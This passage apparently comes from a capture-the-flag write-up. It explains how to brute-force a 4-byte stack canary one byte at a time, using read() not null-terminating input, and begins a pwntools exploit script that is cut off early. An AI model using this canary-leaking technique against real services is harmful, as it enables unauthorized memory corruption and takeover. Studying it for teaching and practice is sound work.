 ```c
   fflush(stdout);
}

int main(int argc, char **argv){

  setvbuf(stdout, NULL, _IONBF, 0);

  // Set the gid to the effective gid
  // this prevents /bin/sh from dropping the privileges
  gid_t gid = getegid();
  setresgid(gid, gid, gid);
  read_canary();
  vuln();
  return 0;
}
```

From the source code we can see it implemented canary, the canary is read from `canary.txt` with the size of 4 characters/bytes. To bruteforce it, there will be like 2^32 possible of values, which is 4 billion of possibilities.

Now, there is a smart way to bruteforce it without needing to go through 4 billion of possibilities. In the `vuln()` function, we can see it read our input using `read(0,buf,count);`, where the function do not append a NULL byte to the end of our input buffer, unlike `scanf()`. So what that means is that we can reduce the possibilities to 4 set of 256 characters which are a total of 1024 tries, by appending character by character. For example:
```
a    (Stack Smash!)
b    (Stack Smash!)
c    (Stack Smash!)
d    (No Stack Smash!)
da   (Stack Smash!)
db   (Stack Smash!)
dc   (Stack Smash!)
de   (No Stack Smash!)
dea  (No Stack Smash!)
deaa (Stack Smash!)
```

Also, keep in mind that we cannot include Carriage Return (`\r`) or Line Feed (`\n`) in our input buffer, else it will stop the `read()` function.

Below is the script that will leak the canary from server, notice that we use `send()` instead of `sendline()`:
```py
#!/usr/bin/env python3
from pwn import *
from time import sleep
from itertools import permutations
import time

# Allows you to switch between local/GDB/remote from terminal
def start(argv=[], *a, **kw):
    if args.GDB:  # Set GDBscript below
        return gdb.debug([exe] + argv, gdbscript=gdbscript, *a, **kw)
    elif args.REMOTE:  # ('server', 'port')
        return remote(sys.argv[1], sys.argv[2], *a, **kw)
    else:  # Run locally
        return process([exe] + argv, *a, **kw)


# Specify your GDB script here for debugging
gdbscript = '''
init-pwndbg
continue
```